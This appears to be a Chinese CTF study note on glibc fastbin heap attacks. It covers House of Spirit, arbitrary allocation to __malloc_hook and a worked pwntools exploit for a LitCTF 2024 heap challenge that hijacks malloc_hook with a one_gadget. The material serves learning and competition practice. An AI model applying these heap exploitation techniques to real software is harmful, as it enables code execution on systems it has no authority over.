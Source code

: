 ```yaml
---
title: Fastbin Attack
date: '2025-02-19 15:27:26'
updated: '2025-04-12 11:27:10'
---
```

第一个进入 fastbin 的 chunk 的 fd 是空的

## Fastchunk Double Free
详细看 double free 文

## House of spirit
### 伪造可被申请的 fake_fast_chunk
在 malloc_hook 之前的内存伪造 fake_fast_chunk，

或者说是利用 malloc_hook 之前的内存原有的数据伪造出符合 fastbin 的大小的 size 域

> （我看别人资料说是什么字节错位伪造？）
>

[找到的资料：](https://bbs.kanxue.com/thread-269145.htm)

> <font style="color:rgb(0, 0, 0);">0x7f：0111 1</font>**<font style="color:rgb(0, 0, 0);background-color:#FBDE28;">11</font>**<font style="color:rgb(0, 0, 0);">1</font>
>
> <font style="color:rgb(0, 0, 0);">0x56：0101 0</font>**<font style="color:rgb(0, 0, 0);background-color:#FBDE28;">11</font>**<font style="color:rgb(0, 0, 0);">0</font>
>
> <font style="color:rgb(0, 0, 0);">主要看的是AM位，加粗的两位，不能刚好是10，检测：</font>
>
> <font style="color:rgb(0, 0, 0);">(1)是否属于当前线程的main_arena</font>
>
> <font style="color:rgb(0, 0, 0);">(2)是否是mmap出来的chunk的检测</font>
>
> <font style="color:rgb(0, 0, 0);">所以按照道理来讲，尾数为4 5 c d四个系列不能通过检测，其他都可以的</font>
>

pwndbg 可以查找目标地址之前的内存数据构造 fake_fast_chunk：

```shell
pwndbg> find_fake_fast 0x7ffff7dd1b10
global_max_fast symbol not found, using the default value: 0x80
Use `set global-max-fast <address>` to set the address of global_max_fast manually if needed.
Searching for fastbin size fields up to 0x80, starting at 0x7ffff7dd1a98 resulting in an overlap of 0x7ffff7dd1b10
FAKE CHUNKS
Fake chunk | PREV_INUSE | IS_MMAPED | NON_MAIN_ARENA
Addr: 0x7ffff7dd1aed
prev_size: 0xfff7dd0260000000
size: 0x78 (with flag bits: 0x7f)
fd: 0xfff7a933f0000000
bk: 0xfff7a92fd000007f
fd_nextsize: 0x7f
bk_nextsize: 0x00
```

把这个 Addr 跟这时候 malloc_hook 的地址的偏移算出来，再在真正获取到 malloc_hook 的地址之后加上这个偏移，就可以得到程序运行时这个 fake_chunk 的地址了，

再拿去覆盖可以控制的 chunk 的 fd，可以申请出来 malloc_hook 前面这块内存

接着 edit 的时候加上一些 padding 就可以覆盖到 malloc_hook 了

剩余详看 house 系列 House of spirits

## <font style="color:rgba(0, 0, 0, 0.87);">Alloc to Stack</font>
核心点在于劫持 fastbin 链表中 chunk 的 fd 指针，把 fd 指针指向我们想要分配的栈上，从而实现控制栈中的一些关键数据，比如返回地址等。

## Arbitrary Alloc
Arbitrary Alloc 其实与 Alloc to stack 是完全相同的，唯一的区别是分配的目标不再是栈中。 事实上只要满足目标地址存在合法的 size 域（这个 size 域是构造的，还是自然存在的都无妨），我们可以把 chunk 分配到任意的可写内存中，比如 bss、heap、data、stack 等等。

使用字节错位来实现直接分配 fastbin 到_malloc_hook 的位置，相当于覆盖_malloc_hook 来控制程序流程。

Arbitrary Alloc 在 CTF 中用地更加频繁。我们可以利用字节错位等方法来绕过 size 域的检验，实现任意地址分配 chunk，最后的效果也就相当于任意地址写任意值。

## LitCTF 2024 heap2.23
刚打通用的 exp 多此一举用的 doublefree 来改 fd...（尴尬...）后面才反应过来...

```shell
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
link=process("./heap2.23")
libc=ELF('./glibc/2.23-0ubuntu3_amd64/libc-2.23.so')

def gdb_attach():
	gdb.attach(link,"set solib-search-path /home/pwner/FocusingCTF/glibc/2.23-0ubuntu3_amd64/")
	pause()

def create(idx,size):
	...

def delete(idx):
	...

def show(idx):
	...

def edit(idx,content):
	...

ogg=[0x4525a,0xef9f4,0xf0897]

create(1,144)
create(2,0x68)
create(3,0x68)
delete(1)
show(1)
malloc_hook=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x68
print(hex(malloc_hook))
libc_base=malloc_hook-libc.sym[b'__malloc_hook']
print(hex(libc_base))
# gdb_attach()
delete(2)
delete(3) #doublefree
delete(2)
create(4,0x68)
edit(4,p64(malloc_hook-0x23))
create(5,0x68)
create(6,0x68)
create(7,0x68) #malloc_hook
payload=b'a'*0x13+p64(libc_base+ogg[1])
edit(7,payload)
create(8,0x68)
# gdb_attach()

link.interactive()
```

下面是正常 uaf ...

```shell
...
ogg=[0x4525a,0xef9f4,0xf0897]

create(1,144)
create(2,0x68)
create(3,0x68)
delete(1)
show(1)
malloc_hook=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x68
print(hex(malloc_hook))
libc_base=malloc_hook-libc.sym[b'__malloc_hook']
print(hex(libc_base))
# gdb_attach()
delete(2)
edit(2,p64(malloc_hook-0x23))
create(5,0x68)
create(7,0x68) #malloc_hook
payload=b'a'*0x13+p64(libc_base+ogg[1])
edit(7,payload)
create(8,0x68)
# gdb_attach()

link.interactive()
```

